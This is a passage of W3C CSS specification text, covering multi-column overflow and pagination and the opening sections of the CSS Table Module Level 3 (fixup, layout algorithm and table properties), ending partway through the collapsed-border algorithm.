> In this example, an article starts with an unbreakable figure which sets the column height. Subsequent content is filled sequentially into the remaining columns:
>
> 
>
> Column height is established by the figure.

### 9.  Overflow {#css-multicol-2:overflow}

#### 9.1.  Overflow Inside Multicol Containers {#css-multicol-2:overflow-inside-multicol-elements}

Except for cases where this would cause a column break, content that extends outside column boxes visibly overflows and is not clipped to the column box.

> **Note:** See [§ 6 Column Breaks](#css-multicol-2:column-breaks) for column breaks and [§ 9.2 Pagination and Overflow Outside Multicol Containers](#css-multicol-2:pagination-and-overflow-outside-multicol) for whether it is clipped to the multi-column container’s content box.

> **Example:** In this example, the image is wider than the column:
>
> 
>
> Content visibly overflows and is not clipped to the column box.

#### 9.2.  Pagination and Overflow Outside Multicol Containers {#css-multicol-2:pagination-and-overflow-outside-multicol}

Content and column rules that extend outside column boxes at the edges of the multi-column container are clipped according to the `overflow` property.

A multicol container can have more columns than it has room for due to:

- a declaration that constrains the multicol container height (e.g., using `height` or `max-height`). In this case, additional column boxes are created in the wrapping direction (by default, the inline direction).
- the size of the page. In this case, additional column boxes are moved to the next page(s).
- explicit column breaks. In this case, additional column boxes are created in the in the wrapping direction (by default, the inline direction for continuous contexts). and additional column boxes are moved to the next fragment(s) for fragmented media.

Columns that appear outside the multicol container in continuous contexts are called **overflow columns**. Overflow columns in the inline direction can affect the height of the multicol container.

> **Example:** In this example, the height of the multi-column container has been constrained to a maximum height. Also, the style sheet specifies that overflowing content should be visible:
>
> ```
> div {
>   max-height: 5em;
>   overflow: visible;
> }
> ```
>
> As a result, the number of columns is increased.
>
> 
>
> An overflow column is created in the inline direction.

> **Example:** In continuous contexts overflow columns in the inline direction can affect the height of the multicol container. In this example a column appears in the overflow which has four lines of text. The multicol container is made tall enough to accommodate this column.
>
> 
>
> The final column is an overflow column yet is taller than the others. The container is tall enough for this column.

> **Example:** In fragmented contexts, the overflow content goes into columns in subsequent fragments. Given the same content as in example 31 and a page box that only has room for five lines of formatted text, this would appear on the first page:
>
> 
>
> The first three paragraphs appear on page one.
>
> Assuming column balancing, this would appear on the second page:
>
> 
>
> The overflow column is moved onto page two.

> **Example:** In this example, explicit column breaks are generated after paragraphs:
>
> ```
> p {
>   break-after: column;
> }
> ```
>
> As a result, the number of columns increases and the extra columns are added in the inline direction:
>
> 
>
> An overflow column is created in the inline direction.

> **Example:** In paged media, extra columns are shown on the next page. Given the same code as the previous example, the last paragraph appears on the second page. This would appear on the first page:
>
> 
>
> The first three paragraphs appear on page one.
>
> This would appear on the second page:
>
> 
>
> The overflow column is moved onto page two.
>
> Due to column balancing, the last paragraph is split across three columns.

### Accessibility Considerations {#css-multicol-2:a11y}

Setting container height and line length can pose challenges for people with visual or cognitive disabilities. See [WCAG Success Criterion 1.4.10 Reflow](https://www.w3.org/WAI/WCAG21/Understanding/reflow.html) and [WCAG 1.4.8 Visual Presentation](https://www.w3.org/WAI/WCAG21/quickref/#visual-presentation) to understand user needs.

---

## CSS Table Module Level 3 {#css-tables-3}

- **Shortname:** `css-tables-3`
- **Editor's Draft:** [https://drafts.csswg.org/css-tables-3/](https://drafts.csswg.org/css-tables-3/)
- **Published TR:** [https://www.w3.org/TR/css-tables-3/](https://www.w3.org/TR/css-tables-3/)
- **W3C Status:** WD (exploring)
- **Last Edited:** 2026-10-08

### 1. Introduction {#css-tables-3:intro}

*This section is not normative*

Many types of information (ex: weather readings collected over the past year) are best visually represented in a two-axis grid where rows represent one item of the list (ex: a date, and the various weather properties measured during that day), and where columns represent the successive values of an item’s property (ex: the temperatures measured over the past year).

Sometimes, to make the representation easier to understand, some cells of the grid are used to represent a description or summary of their parent row/column, instead of actual data. This happens more frequently for the cells found on the first row and/or column (called headers) or the cells found on the last row and/or column (called footers).

This kind of tabular data representation is usually known as tables. Tables layout can be abused to render other grid-like representations like calendars or timelines, though authors should prefer other layout modes when the information being represented does not make sense as a data table.

The rendering of tables in HTML has been defined for a long time in the HTML specification. However, its interactions with features defined in CSS remained for a long time undefined. The goal of this specification is to define the expected behavior of user agents supporting both HTML tables and CSS.

Please be aware that some behaviors defined in this document will not be the most logical or useful way of solving the problem they aim to solve, but such behaviors are often the result of compatibility requirements and not a deliberate choice of the editors of this specification. Authors wishing to use more complex layouts are encouraged to rely on more modern CSS modules such as CSS Grid.

#### 1.1. Value Definitions {#css-tables-3:values}

This specification follows the [CSS property definition conventions](#css2:property-defs) from [CSS2] using the [value definition syntax](#css-values-4:value-defs) from [CSS-VALUES-3]. Value types not defined in this specification are defined in CSS Values & Units [CSS-VALUES-3]. Combination with other CSS modules may expand the definitions of these value types.

In addition to the property-specific values listed in their definitions, all properties defined in this specification also accept the CSS-wide keywords as their property value. For readability they have not been repeated explicitly.

### 2. Content Model {#css-tables-3:content-model}

#### 2.1. Table Structure {#css-tables-3:table-structure}

The CSS table model is based on the HTML4 table model, in which the structure of a table closely parallels the visual layout of the table. In this model, a table consists of an optional caption and any number of rows of cells.

In addition, adjacent rows and columns may be grouped structurally and this grouping can be reflected in presentation (e.g., a border may be drawn around a group of rows).

The table model is said to be "row primary" since authors specify rows, not columns, explicitly in the document language. Columns are derived once all the rows have been specified: the first cell of the first row belongs to the first column and as many other columns as spanning requires (and it creates them if needed), and the following cells of that row each belong to the next available column and as many other columns as spanning requires (creating those if needed); the cells of the following rows each belong to the next available column for that row (taking rowspan into account) and as many other columns as spanning requires (creating those if needed). (see [§ 3.3 Dimensioning the row/column grid](#css-tables-3:dimensioning-the-row-column-grid)).

To summarize, an instance of the table model consists of:

- Its table-root containing:

  - Zero, one or more table rows, optionally in row groups,

    - Each of them containing one or more table cells
  - Optionally: one or more table columns, optionally in column groups
  - Optionally: one or more table caption.

![[see-caption-below]](../css-tables-3/images/table-structure.png)

Two representations of the structure of a table (tree vs layout)

The CSS model does not require that the document language include elements that correspond to each of these components. For document languages (such as XML applications) that do not have pre-defined table elements, authors must map document language elements to table elements. This is done with the `display` property.

The following `display` values assign table formatting rules to an arbitrary element:

****table** (equivalent to HTML: <table>)**

: Specifies that an element defines a table that is block-level when placed in flow layout.

****inline-table** (equivalent to HTML: <table>)**

: Specifies that an element defines a table that is inline-level when placed in flow layout.

****table-row** (equivalent to HTML: <tr>)**

: Specifies that an element is a row of cells.

****table-row-group** (equivalent to HTML: <tbody>)**

: Specifies that an element groups some amount of rows.

  Unless explicitly mentioned otherwise, mentions of table-row-groups in this spec also encompass the specialized table-header-groups and table-footer-groups.

****table-header-group** (equivalent to HTML: <thead>)**

: Like table-row-group but, for layout purposes, the first such row group is always displayed before all other rows and row groups.

  > **Advisement:** If a table owns multiple `display: table-header-group` boxes, only the first is treated as a header; the others are treated as if they had `display: table-row-group`.

****table-footer-group** (equivalent to HTML: <tfoot>)**

: Like table-row-group but, for layout purposes, the first such row group is always displayed after all other rows and row groups.

  > **Advisement:** If a table owns multiple `display: table-footer-group` boxes, only the first is treated as a footer; the others are treated as if they had `display: table-row-group`.

****table-column** (equivalent to HTML: <col>)**

: Specifies that an element describes a column of cells.

****table-column-group** (equivalent to HTML: <colgroup>)**

: Specifies that an element groups one or more columns.

****table-cell** (equivalent to HTML: <td> or <th>)**

: Specifies that an element represents a table cell.

****table-caption** (equivalent to HTML: <caption>)**

: Specifies a caption for the table. Table captions are positioned between the table margins and its borders.

> **Note:** Replaced elements with a `display` value of `table-row`, `table-row-group`, `table-header-group`, `table-footer-group`, `table-column`, `table-column-group`, `table-cell`, and `table-caption` are treated as inline-level boxes, as per [CSS Display 3 § 2.4 Layout-Internal Display Types: the table-* and ruby-* keywords](#css-display-4:layout-specific-display); replaced elements with a `display` value of `table` or `inline-table` behave according to their outer display type, as per [CSS Display 3 § 2.1 Outer Display Roles for Flow Layout: the block, inline, and run-in keywords](#css-display-4:outer-role). **This is a breaking change from CSS 2.1 but matches implementations.**

##### 2.1.1. Terminology {#css-tables-3:terminology}

In addition to the table structure display types, the following wording is also being used in this spec:

****table wrapper box****

: A block container box [generated around table grid boxes](#css-tables-3:fixup-algorithm) to account for any space occupied by each table-caption it owns.

****table grid box****

: A block-level box containing the table-internal boxes, excluding its captions.

****table-root** element**

: An element whose inner display type is `table`.

****table-non-root** box or element**

: A proper table child, or a table-cell box.

****table-track** box or element**

: A table-row, or table-column box.

****table-track-group** box or element**

: A table-row-group, or table-column-group box.

****proper table child** box or element**

: A table-track-group, table-track, or table-caption box.

****proper table-row parent** box or element**

: A table-root or a table-row-group box.

****table-internal** box or element**

: A table-cell, table-track or table-track-group box.

****tabular container****

: A table-row or proper table-row parent box.

****consecutive** boxes**

: Two sibling boxes are consecutive if they have no intervening siblings other than, optionally, an anonymous inline containing only white spaces. A sequence of sibling boxes is consecutive if each box in the sequence is consecutive to the one before it in the sequence.

****table grid****

: A matrix containing as many **rows** and **columns** as needed to describe the position of all the table-rows and table-cells of a table-root, as determined by the [grid-dimensioning algorithm](#css-tables-3:dimensioning-the-row-column-grid).

  Each row of the grid might correspond to a table-row, and each column to a table-column.

****slot** of the table grid**

: A slot `(r,c)` is an available space created by the intersection of a row `r` and a column `c` in the table grid.

  Each slot of the table grid is covered by at least one table-cell ([some of them anonymous](#css-tables-3:missing-cells-fixup)), and at most two. Each table-cell of a table-root covers at least one slot.

  Table-cells which cover more than one slot do so densely, meaning the set of slots they cover can always be described as a set of four strictly-positive integers `(rowStart, colStart, rowSpan, colSpan)` such that a slot `(r,c)` is covered by the table-cell if and only if `r` lies in the interval between `rowStart` (included) and `rowStart+rowSpan` (excluded), and `c` lies in the interval between `colStart` (included) and `colStart+colSpan` (excluded);

  Such table-cell is said to **originate** from row `rowStart` and column `colStart`. Also:

  - A table-cell is said to originate a table-row *(resp. table-column)* if it originates its corresponding row *(resp. column)*
  - A table-cell is said to originate a table-row-group *(resp. table-column-group)* if the group contains the cell’s originating row *(resp. column)*

  Such table-cell is said to **span** all rows `r` and columns `c` matching the above condition. Also:

  - A table-cell is said to span a table-row *(resp. table-column)* if it spans its corresponding row *(resp. column)*
  - A table-row *(resp. table-column)* corresponding to a row *(resp. column)* is said to span this row *(resp. column)*
  - A table-row *(resp. table-column)* is said to span all columns of the grid *(resp. row)*
  - A table-row-group *(resp. table-column)* containing a row *(resp. column)* is said to span the row *(resp. column)*
  - A table-row-group *(resp. table-column)* is said to span all columns of the grid *(resp. row)*

#### 2.2. Fixup {#css-tables-3:fixup}

Document languages other than HTML may not contain all the elements in the CSS 2.1 table model. In these cases, the "missing" elements must be assumed in order for the table model to work.

Any table-internal element will automatically generate necessary anonymous table objects around itself, if necessary. Any descendant of a table-root that is not table-internal must have a set of ancestors in the table consisting of at least three nested objects corresponding to a table/inline-table, a table-row, and a table-cell. Missing boxes cause the generation of [anonymous boxes](#css-tables-3:fixup-boxes) according to the following rules:

##### 2.2.1. Fixup Algorithm {#css-tables-3:fixup-algorithm}

For the purposes of these rules, out-of-flow elements are represented as inline elements of zero width and height. Their containing blocks are chosen accordingly.

The following steps are performed in three stages:

1. **Remove irrelevant boxes:**  The following boxes are discarded as if they were `display:none`:

  1. Children of a table-column.
  2. Children of a table-column-group which are not a table-column.
  3. Anonymous inline boxes which contain only white space and are between two immediate siblings each of which is a table-non-root box.
  4. Anonymous inline boxes which meet all of the following criteria:

    - they contain only white space
    - they are the first and/or last child of a tabular container
    - whose immediate sibling, if any, is a table-non-root box
2. **Generate missing child wrappers:**

  1. An anonymous table-row box must be generated around each sequence of consecutive children of a table-root box which are not proper table child boxes. [!!Testcase](https://jsfiddle.net/hj2w7wwa/2/)
  2. An anonymous table-row box must be generated around each sequence of consecutive children of a table-row-group box which are not table-row boxes. [!Testcase](https://jsfiddle.net/hj2w7wwa/3/)
  3. An anonymous table-cell box must be generated around each sequence of consecutive children of a table-row box which are not table-cell boxes. [!Testcase](https://jsfiddle.net/hj2w7wwa/4/)
3. **Generate missing parents:**

  1. An anonymous table-row box must be generated around each sequence of consecutive table-cell boxes whose parent is not a table-row. [Testcase](https://jsfiddle.net/hj2w7wwa/5/)
  2. An anonymous table or inline-table box must be generated around each sequence of consecutive proper table child boxes which are misparented. If the box’s parent is an inline, run-in, or ruby box (or any box that would perform inlinification of its children), then an inline-table box must be generated; otherwise it must be a table box.

    - A table-row is misparented if its parent is neither a table-row-group nor a table-root box.
    - A table-column box is misparented if its parent is neither a table-column-group box nor a table-root box.
    - A table-row-group, table-column-group, or table-caption box is misparented if its parent is not a table-root box.

     [Testcase](https://jsfiddle.net/hj2w7wwa/7/) [Testcase](https://jsfiddle.net/hj2w7wwa/8/) [!Testcase](https://jsfiddle.net/hj2w7wwa/9/)
  3. An anonymous table-wrapper box must be generated around each table-root. Its display type is `inline-block` for inline-table boxes and block for table boxes. The table wrapper box establishes a block formatting context. The table-root box (not the table-wrapper box) is used when doing baseline vertical alignment for an inline-table. The width of the table-wrapper box is the border-edge width of the table grid box inside it. Percentages which would depend on the `width` and `height` on the table-wrapper box’s size are relative to the table-wrapper box’s containing block instead, not the table-wrapper box itself.

> **Note:** Please note that some layout modes such as flexbox and grid [override the display type](#css-display-4:blockify) of their children. These transformations happen before the table fixup.

> **Note:** Please note that the `float` and `position` properties sometimes [affect the computed value](#css2:dis-pos-flo) of `display`. When those properties are used on what should have been table internal boxes, they switch to `block` instead. This transformation happens before the table fixup.

> **Note:** We have modified the text of this section from CSS 2.2 to make it easier to read. If you find any mistakes due to these changes please file an issue

##### 2.2.2. Characteristics of fixup boxes {#css-tables-3:fixup-boxes}

Beside their display type, the anonymous boxes created for fixup purposes do not receive any specific or default styling, except where otherwise mentioned by this specification.

> **Note:** This means in particular that their computed background is “transparent”, their computed padding is “0px”, their computed border-style is “none”.
>
> It is also worth reminding that an anonymous box inherits property values through the box tree.

##### 2.2.3. Examples {#css-tables-3:fixup-examples}

> **Example:** ```markup
> <div class="row">
>   <div class="cell">George</div>
>   <div class="cell">4287</div>
>   <div class="cell">1998</div>
> </div>
> ```
>
> Here is the associated styles:
>
> ```css
> .row { display: table-row }
> .cell { display: table-cell }
> ```
>
> After fixup, this will produce layout boxes as though this was the initial HTML:
>
> ```markup
> <table>
>   <tr>
>     <td>George</td>
>     <td>4287</td>
>     <td>1998</td>
>   </tr>
> </table>
> ```

> **Example:** In this example, three table-cell anonymous boxes are assumed to contain the text in the rows. The text inside of the divs with a `display: table-row` are encapsulated in anonymous inline boxes, as explained in [visual formatting model](#css2:anonymous):
>
> ```markup
> <div class="inline-table">
>   <div class="row">This is the top row.</div>
>   <div class="row">This is the middle row.</div>
>   <div class="row">This is the bottom row.</div>
> </div>
> ```
>
> ```css
> .inline-table { display: inline-table; }
> .row { display: table-row; }
> ```
>
> This will produce layout boxes as though this was the initial HTML:
>
> ```markup
> <table>
>   <tr>
>     <td>This is the top row.</td>
>   </tr>
>   <tr>
>     <td>This is the middle row.</td>
>   </tr>
>   <tr>
>     <td>This is the bottom row.</td>
>   </tr>
> </table>
> ```

### 3. Layout {#css-tables-3:layout}

#### 3.1. Core layout principles {#css-tables-3:layout-principles}

Unlike other block-level boxes, tables do not fill their containing block by default. When their `width` computes to `auto`, they behave as if they had `fit-content` specified instead. This is different from most block-level boxes, which behave as if they had `stretch` instead.

The **min-content width of a table** is the width required to fit all of its columns min-content widths and its undistributable spaces.

The **max-content width of a table** is the width required to fit all of its columns max-content widths and its undistributable spaces.

If the width assigned to a table is larger than its min-content width, the [Available Width Distribution](#css-tables-3:width-distribution) algorithm will adjust column widths in consequence.

This section overrides the general-purpose rules that apply to calculating widths described in other specifications. In particular, if the margins of a table are set to `0` and the width to `auto`, the table will not automatically size to fill its containing block. However, once the used value of `width` for the table is found (using the algorithms given below) then the other parts of those rules do apply. Therefore, a table can be centered using left and right `auto` margins, for instance.

#### 3.2. Table layout algorithm {#css-tables-3:table-layout-algorithm}

To layout a table, user agents must apply the following actions:

1. **Determine the number of rows/columns the table requires.**  This is done by executing the steps described in [§ 3.3 Dimensioning the row/column grid](#css-tables-3:dimensioning-the-row-column-grid).
2. **[A] If the row/column grid has at least one slot:**

  1. **Ensure each cell slot is occupied by at least one cell.**  This is done by executing the steps described in [§ 3.4 Missing cells fixup](#css-tables-3:missing-cells-fixup).
  2. **Compute the minimum width of each column.**  This is done by executing the steps described in [§ 3.8 Computing table measures](#css-tables-3:content-measure).
  3. **Compute the width of the table.**  This is done by executing the steps described in [§ 3.9.1 Computing the table width](#css-tables-3:computing-the-table-width).
  4. **Distribute the width of the table among columns.**  This is done by executing the steps described in [§ 3.9.3 Distribution algorithm](#css-tables-3:width-distribution-algorithm).
  5. **Compute the height of the table.**  This is done by executing the steps described in [§ 3.10.1 Computing the table height](#css-tables-3:computing-the-table-height).
  6. **Distribute the height of the table among rows.**  This is done by executing the steps described in [§ 3.10.5 Distribution algorithm](#css-tables-3:height-distribution-algorithm).

   **[B] Else, an **empty table** is laid out:**

  1. **Compute the width of the table.**  This is done by returning the largest value of CAPMIN and the computed width of the table grid box (including borders and paddings) if it is definite (use zero otherwise).
  2. **Compute the height of the table.**  This is done by returning the sum of all table-caption heights (their width being set to the table width, with margins taken into consideration appropriately) and the computed height of the table grid box (including borders and paddings) if it is definite (use zero otherwise).
3. **Assign to each table-caption and table-cell their position and size.**  This is done by running the steps of [§ 3.11 Positioning of cells, captions and other internal table boxes](#css-tables-3:bounding-box-assignment).

> **Note:** The following schema describes the algorithm in a different way, to make it easier to understand.

![[see-caption-below]](../css-tables-3/images/CSS-Tables-Layout-Merged.svg)

Overview of the table layout algorithm. Not normative.

#### 3.3. Dimensioning the row/column grid {#css-tables-3:dimensioning-the-row-column-grid}

Like mentioned in the [Table structure](#css-tables-3:table-structure) section, how many rows and columns a table has can be determined from the table structure. Both dimensioning the row/column grid and assigning table-cells their slot(s) in that grid do require running the HTML Algorithms for tables.

##### 3.3.1. HTML Algorithm {#css-tables-3:dimensioning-the-row-column-grid--step1}

> **Note:** CSS Boxes that do not originate from an HTML table element equivalent to their display type need to be converted to their HTML equivalent before we can apply this algorithm, see below. There is no way to specify the span of a cell in css only in this level of the spec, the use of an HTML td element is required to do so.

Apply the [HTML5 Table Formatting algorithm](https://www.w3.org/TR/html5/tabular-data.html#forming-a-table), where boxes act like [the HTML element equivalent to their display type](#css-tables-3:display-types), and use the attributes of their originating element if and only if it is an HTML element of the same type (otherwise, they act like if they didn’t have any attribute).

> **Example:** ```markup
> <ul class="table">
>   <li><b>One</b><i>1</i></li>
>   <li><b>Two</b><i>2</i></li>
>   <li><b>Three</b><i>3</i></li>
> </ul>
> <style>
>   ul.table { display: table; }
>   ul.table > li { display: table-row; }
>   ul.table > li > * { display: table-cell; }
> </style>
> ```
>
> produces the same row/column grid as
>
> ```markup
> <table><tbody>
>   <tr>
>     <td></td>
>     <td></td>
>   </tr>
>   <tr>
>     <td></td>
>     <td></td>
>   </tr>
>   <tr>
>     <td></td>
>     <td></td>
>   </tr>
> </tbody></table>
> ```

> **Example:** ```markup
> <!-- built using dom api, as this would be fixed by the html parser -->
> ```
>
> ```markup
> <grid style="display: table">
>   <row style="display: table-row">
>     <th rowspan="2">1</th>
>     <colgroup style="display: table-cell" span="2" colspan="2">2</colgroup>
>   </row>
>   <tr>
>     <td>A</td>
>     <td>B</td>
>     <td>C</td>
>   </tr>
> </grid>
> ```
>
> produces the same row/column grid as
>
> ```markup
> <table>
>   <tr>
>     <th rowspan="2">1</th>
>     <td>2</td>
>   </tr>
>   <tr>
>     <td>A</td>
>     <td>B</td>
>     <td>C</td>
>   </tr>
> </table>
> ```
>
> Note how the second cell of the first row doesn’t have ```colspan=2``` applied, because its originating element is not an HTML TD element.
>
> [Testcase](https://jsfiddle.net/eqrwaLyc/). [!!Testcase](https://jsfiddle.net/eqrwaLyc/1/). [!Test case](https://jsfiddle.net/sckxeLmh/2/). [!!Test case](https://jsfiddle.net/sckxeLmh/4/). [!!Test case](https://jsfiddle.net/sckxeLmh/5/).

##### 3.3.2. Track merging {#css-tables-3:dimensioning-the-row-column-grid--step2}

> **Note:** The HTML Table Formatting algorithm sometimes generates more tracks than necessary to layout the table properly. Those tracks have historically been ignored by user agents, so the next step just gets rid of them entirely to avoid dealing with them as exceptions later in the spec. We have tried to maintain the functionality with this change, but if you happen to find any issues due to this change please file an issue.

Modify iteratively the obtained grid by merging consecutive tracks as follows: As long as there exists an eligible track in the obtained row/column grid such that there is no table-column/table-row box defining the said track explicitly, and both the said track and the previous one are spanned by the exact same set of cells, those two tracks must be merged into one single track for the purpose of computing the layout of the table. Reduce the span of the cells that spanned the deleted track by one to compensate, and shift similarly the tracks from which cells originate when needed. (see [spanning-ghost-rows test cases](#css-tables-3:spanning-ghost-rows))

For tables in auto mode, every track is an **eligible track** for the purpose of the track-merging algorithm. For tables in fixed mode, only rows are eligible to be merged that way; which means that every column is preserved.

Finally, assign to the table-root grid its correct number of rows and columns (from its mapped element), and to each table-cell its accurate rowStart/colStart/rowSpan/colSpan (from its mapped element).

#### 3.4. Missing cells fixup {#css-tables-3:missing-cells-fixup}

> **Note:** The following section clarifies and extends the CSS 2.1 statement saying that missing cells are rendered as if an anonymous table-cell box occupied their position in the grid (a "missing cell" is a slot in the row/column grid that is not covered yet by any table-cell box).

Once the amount of columns in a table is known, any table-row box must be modified such that it owns enough cells to fill all the columns of the table, when taking spans into account. New table-cell [anonymous boxes](#css-tables-3:fixup-boxes) must be appended to its rows content until this condition is met.

#### 3.5. Table layout modes {#css-tables-3:layout-modes}

This section covers the flags which modify the way tables are being laid out. There are three major flags for table layout: `table-layout`, `border-collapse`, and `caption-side`. The `border-collapse` flag has an optional `border-spacing` parameter.

##### 3.5.1. The Table-Layout property {#css-tables-3:table-layout-property}

| Field | Value |
| --- | --- |
| Name: | **table-layout** |
| [Value:](#css-values-4:value-defs) | auto \| fixed |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | table grid boxes |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

A table-root is said to be laid out **in fixed mode** whenever the computed value of the `table-layout` property is equal to `fixed`, and the specified width of the table root is not `auto` or `max-content`. When the specified width is one of those values, or if the computed value of the `table-layout` property is `auto`, then the table-root is said to be laid out **in auto mode**.

When a table-root is laid out in fixed mode, the content of its table-cells is ignored for the purpose of width computation, the aggregation algorithm for column sizing considers only table-cells belonging to the first row track, such that layout only depends on the values explicitly specified for the table-columns or cells of the first row of the table; columns with indefinite widths are attributed their fair share of the remaining space after the columns with a definite width have been considered, or 0px if there is no remaining space (see [§ 3.8.3 Computing Column Measures](#css-tables-3:computing-column-measures)).

##### 3.5.2. The Border-Collapse property {#css-tables-3:border-collapse-property}

| Field | Value |
| --- | --- |
| Name: | **border-collapse** |
| [Value:](#css-values-4:value-defs) | separate \| collapse |
| [Initial:](#css-cascade-6:initial-values) | separate |
| [Applies to:](#css-cascade-5:applies-to) | table grid boxes |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

When the `border-collapse` property has `collapse` as its value, the borders of adjacent cells are merged together such that each cell draws only half of the shared border. As a result, some other properties like `border-spacing` will not applied in this case (see [§ 3.6.2 Overrides applying in collapsed-borders mode](#css-tables-3:collapsed-style-overrides)), (see [§ 3.7 Border-collapsing](#css-tables-3:border-collapsing)).

A table-root is said to be laid out **in collapsed-borders mode** in this case. Otherwise, the table-root is said to be laid out **in separated-borders mode**.

###### 3.5.2.1. The Border-Spacing property {#css-tables-3:border-spacing-property}

| Field | Value |
| --- | --- |
| Name: | **border-spacing** |
| [Value:](#css-values-4:value-defs) | `<length [0,∞]>`{1,2} |
| [Initial:](#css-cascade-6:initial-values) | 0px 0px |
| [Applies to:](#css-cascade-5:applies-to) | table grid boxes when `border-collapse` is `separate` |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | two absolute lengths |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value |

The lengths specify the distance that separates adjoining cell borders in separated-borders mode, and must be non-negative.

If one length is specified, it gives both the horizontal and vertical spacing. If two are specified, the first gives the horizontal spacing and the second the vertical spacing.

See [§ 3.8.1 Computing Undistributable Space](#css-tables-3:computing-undistributable-space) for details on how this affects the table layout.

##### 3.5.3. The Caption-Side property {#css-tables-3:caption-side-property}

| Field | Value |
| --- | --- |
| Name: | **caption-side** |
| [Value:](#css-values-4:value-defs) | top \| bottom |
| [Initial:](#css-cascade-6:initial-values) | top |
| [Applies to:](#css-cascade-5:applies-to) | table-caption boxes |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

This property specifies the position of the caption box with respect to the table grid box. Values have the following meanings:

****top****

: Positions the caption box above the table grid box.

****bottom****

: Positions the caption box below the table grid box.

> **Note:** CSS2 described a different width and horizontal alignment behavior. That behavior was supposed to be introduced in CSS3 using the values `top-outside` and `bottom-outside`. [#REF](http://fantasai.inkedblade.net/style/discuss/captions/)

> **Note:** Gecko also supports the "left" and "right" values, but currently this specification is not attempting to define their implementation of said values.

> **Note:** Gecko has a bug when dealing with multiple captions. [!Testcase](http://codepen.io/FremyCompany/pen/WrJxwP)

> **Example:** To align caption content horizontally within the caption box, use the `text-align` property.
>
> In this example, the `caption-side` property places captions below tables. The caption will be as wide as the parent of the table, and caption text will be left-justified.
>
> ```
> caption {
>   caption-side: bottom;
>   width: auto;
>   text-align: left
> }
> ```

#### 3.6. Style overrides {#css-tables-3:style-overrides}

Some css properties behave differently inside css tables. The following sections list the exceptions and their effects.

##### 3.6.1. Overrides applying in all modes {#css-tables-3:global-style-overrides}

The following rules apply to all tables, irrespective of the layout mode in use.

- The computed values of properties `position`, `float`, `margin`-*, `top`, `right`, `bottom`, and `left` on the table are used on the table-wrapper box and not the table grid box; the same holds true for the properties whose use could force the used value of `transform-style` to `flat` (see [list](#css-transforms-2:grouping-property-values)) and their shorthands/longhands relatives: this list currently includes `overflow`, `opacity`, `filter`, `clip`, `clip-path`, `isolation`, `mask`-*, `mix-blend-mode`, `transform`-* and `perspective`.   Where the specified values are not applied on the table grid and/or wrapper boxes, the unset values are used instead for that box (inherit or initial, depending on the property).
- The `overflow` property on the table-root and table-wrapper box, when its value is not either `visible`, `clip` or `hidden`, is ignored and treated as if its value was `visible`.
- All css properties of table-column and table-column-group boxes are ignored, except when explicitly specified by this specification.
- The `margin`, `padding`, `overflow` and `z-index` of table-track and table-track-group boxes are ignored.
- The `margin` of table-cell boxes is ignored (as if it was set to 0px).
- The `background` of table-cell boxes are painted using a special background painting algorithm described in [§ 5.3.2 Drawing cell backgrounds](#css-tables-3:drawing-cell-backgrounds).

##### 3.6.2. Overrides applying in collapsed-borders mode {#css-tables-3:collapsed-style-overrides}

When a table is laid out in collapsed-borders mode, the following rules apply:

- The `padding` of the table-root is ignored (as if it was set to 0px).
- The `border-spacing` of the table-root is ignored (as if it was set to 0px).
- The `border-radius` of both table-root and table-non-root boxes is ignored (as if it was set to 0px).
- The values used for the layout and rendering of the borders of the table-root and the table-cell boxes it owns are determined using a special conflict resolution algorithm described in [§ 3.7 Border-collapsing](#css-tables-3:border-collapsing).

#### 3.7. Border-collapsing {#css-tables-3:border-collapsing}

> **Note:** This entire section is a proposal to make the rendering of collapsed borders sane. As implementations diverge very visibly, it is expected to require more discussion than some other parts. Since browsers handle this so differently, convergence cannot happen without reimplementation. A major concern for this proposal was to support as many cases as possible, and yet keep the effort required for a new implementation of tables as low as possible.
>
> **Background:** CSS+HTML allow unprecedented combinations of border modes for table junctions, and it makes it difficult to support all cases properly; in fact some combinations are not [well-posed problems](https://en.wikipedia.org/wiki/Well-posed_problem), so no rendering algorithm could be optimal.
>
> Because they grew from something simple (HTML) to something very complex (HTML+CSS), the current table rendering models (backgrounds and borders) used by web browsers are insane (in the sense they are buggy, not interoperable and not CSSish at all). Many usual CSS assumptions are broken, and renderings diverge widely.
>
> This proposal aims at fixing this situation.

> **Issue:** border-collapsing breaking change from 2.1 [[Issue #604]](https://github.com/w3c/csswg-drafts/issues/604)

##### 3.7.1. Conflict Resolution for Collapsed Borders {#css-tables-3:conflict-resolution-for-collapsed-borders}

When they are laid out in collapsed-borders mode, table-root and table-cell boxes sharing a border attempt to unify their borders so that they render using the same style, width, and color (whenever this is possible). This is accomplished by running the following algorithm.

###### 3.7.1.1. Conflict Resolution Algorithm for Collapsed Borders {#css-tables-3:border-conflict-resolution-algorithm}

> **Note:** For the purpose of this algorithm, “harmonizing” a set of borders means applying the [“Harmonization Algorithm for Collapsed Borders”](#css-tables-3:border-style-harmonization-algorithm) on the given set of borders, and set those borders' used values to the value resulting from the algorithm, except for cells having a `border-image-source` different from none: those keep their initial values.

**For any table-cell C° of a table-root:**

- Resolve conflicts with border-right:

  1. Let S be an ordered set of table-cell border styles, sorted by cell in RowStart/ColumnStart order; initially, let S contain only C°’s border-right style
  2. Add to the set S the border-left style of all cells sharing a section of their left border with C°’s right border
  3. Repeat the following two instructions, until no new border style is added to S:

    - For all newly-added left borders from cell Ci having a rowspan greater than one, add to the set S the border-right style of all cells sharing a section of their border-right with Ci’s border-left
